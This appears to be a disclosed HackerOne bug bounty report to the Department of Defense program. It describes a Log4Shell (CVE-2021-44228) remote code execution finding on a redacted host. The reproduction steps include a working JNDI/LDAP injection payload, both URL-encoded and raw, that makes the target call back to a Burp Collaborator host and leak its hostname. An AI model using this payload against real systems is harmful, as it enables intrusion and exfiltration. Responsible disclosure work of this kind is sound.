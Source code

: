 # Log4Shell: RCE 0-day exploit on █████████

## Report Details
- **Report ID**: 1429014
- **URL**: https://hackerone.com/reports/1429014
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-16T18:32:13.923Z
- **Disclosed**: 2022-01-03T21:23:25.768Z

## Reporter
- **Username**: mr_x_strange
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi team,
log4 shell is recent 0-day exploit it's Java package vulnerable. ██████████ domain is vulnerable

## Impact

RCE

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-44228

## Steps to Reproduce
1. Go to this url => https://███████/██████=%24%7bjndi%3aldap%3a%2f%2fx%24%7bhostName%7d.LOG45200SSRF.xxxxxx.burpcollaborator.net%2fa%7d
2. paste the poc code on  ██████ url parameter
3. like this =>   https://██████████/██████
4. then burp collaborator received reverse ping back
5. I attached poc videos and photos below

##POC CODE
${jndi:ldap://x${hostName}.log4j.xxxxxxx.burpcollaborator.net/a}

## Suggested Mitigation/Remediation Actions
https://www.lunasec.io/docs/blog/log4j-zero-day/



## Attachments
No attachments
